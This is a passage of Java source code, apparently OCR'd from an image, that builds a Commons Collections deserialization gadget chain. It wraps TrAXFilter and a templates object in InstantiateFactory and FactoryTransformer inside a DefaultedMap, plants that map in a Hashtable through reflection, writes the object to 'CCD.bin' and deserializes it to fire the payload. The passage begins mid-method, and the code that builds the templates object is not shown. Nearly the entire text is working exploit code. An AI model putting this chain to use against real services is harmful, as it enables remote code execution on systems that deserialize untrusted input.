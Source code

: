 ```
        InstantiateFactory factory = new InstantiateFactory(TrAXFilter.class, new Class[]{Templates.class}, new Object[]{templates});
        FactoryTransformer transformer = new FactoryTransformer(factory);

        HashMap tmp = new HashMap();
        tmp.put("zZ", "d");
        DefaultedMap map  = (DefaultedMap) DefaultedMap.decorate(tmp, transformer);


        FastHashMap fastHashMap1 = new FastHashMap();
        fastHashMap1.put("yy","d");

        Hashtable obj = new Hashtable();
        obj.put("aa", "b");
        obj.put(fastHashMap1, "1");

//        Object[] table = (Object[]) Reflections.getFieldValue(obj, "table");
        Field field = obj.getClass().getDeclaredField("table");
        field.setAccessible(true);
        Object[] table = (Object[]) field.get(obj);
        // hashmap的索引会根据key的值而变化，如果要改前面的key的话，这里的索引可以用调试的方式改一下
        Object node = table[2];
        Field keyField;
        try{
            keyField = node.getClass().getDeclaredField("key");
        }catch(Exception e){
            keyField = Class.forName("java.util.MapEntry").getDeclaredField("key");
        }
        keyField.setAccessible(true);
        if (keyField.get(node) instanceof String){
            keyField.set(node, map);
        }

        ObjectOutputStream os = new ObjectOutputStream(new FileOutputStream("CCD.bin"));
        os.writeObject(obj);

        ObjectInputStream fos = new ObjectInputStream(new FileInputStream("CCD.bin"));
        fos.readObject();

    }
    public static void setFieldValue(Object obj,String filename,Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(filename);
        field.setAccessible(true);
        field.set(obj,value);
    }

}
```
